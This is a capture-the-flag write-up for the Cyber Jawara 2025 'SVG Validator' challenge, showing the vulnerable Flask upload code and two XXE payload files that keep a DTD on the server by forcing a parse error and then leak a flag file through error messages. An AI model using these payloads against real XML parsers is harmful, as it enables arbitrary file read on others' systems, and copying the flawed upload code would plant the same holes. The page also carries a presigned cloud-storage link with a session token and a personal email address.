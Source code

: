 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466TG66IGEA%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T091634Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJHMEUCIQCJw4TBZPozILHa2H4wJNmi1Na2zWD7qJ6eTRX2CR3jZgIgCDW2Jm6T%2FD7CbML%2Fz5iQChkzywk6jUq%2BK6jJ1eL%2Bu8IqiAQI6v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDFJVSoQ5N3H38T8ciyrcA8A1yvmvSwlLepUi%2FAeZfbWD86VIsVQWNXZmp9XkrI34ditVDO%2BrSVhvzJ2Jr8fEX1wEbRtKCZr7eujhmBVuE5AVkcCCzMMiiy36dEClArA67BV9FtWHeuC2ksIJMHZV7J99Cy5MriK1Ok14yj%2FmxCLoWgfRc40zmnq5zNSuA6yO4I2H9zOFySkUk69Jkz35aLZ8BNjmuJwZyUH2azlluUT88G%2FMCwijahXjDOtPxWlDi4%2B0p4db%2BENQh08l11T0nzJyrA557xAsBT0kDOq1foCy5wWsP7M14LX7hz4b%2FU6wjx1dbHQOBkNxpEAepdu0aX8juzzCql3BpyGbJPN7wooMAoPu%2BjE0NjhnPnApbyOOOytuPmGrBc5tqWO3qY10nxS5p8oq71gSH8Ttv276uNwcVDCRwIajLqNU%2FTTf%2BPW6fvc5t1COjGpVNv3k0qY6cStCDiauO6Pzok0qaye%2BDNklvC0J%2FS4oTKlJ4YigbPe6heyWirlSS9EZc4kI7fJGSwgbvhWlCUuVPxU8Zz1FiN0TbVrwc%2FfEjuCPFW8MTe7bV6vbL86Pfl0MsGuScDeKw39sP8faI89JT0fj8rEnkzNc91uYPENKinJK3RiNJ%2Br8%2FB%2FmjgrX9StgBjRIMMDxwMEGOqUBytW1qH7TuukeqLGlrSqk1Z%2BESelETkb9pfGybzxWxL7RACiItD%2Favu11EOlh9pMXKj5SSPi%2Fv4NCcAWuxCLuYDQwcWl3Z3aVPzpi7IKOa2GSwYncW9JhZ%2BKQqFrak7095uiVR57ekDWYnc1mY7rSKiBDKMHf%2FW7lx6AhN3IM%2FXRYHr9xE4Yx1C8FS1Jytg6pNW%2F0s3M8BPBuZL07Dbw5oAc31BGJ\&X-Amz-Signature=0400ac9ffe42e9f201a5c0b4699570efdfab866a754b80bfea658335c9d2ed24\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
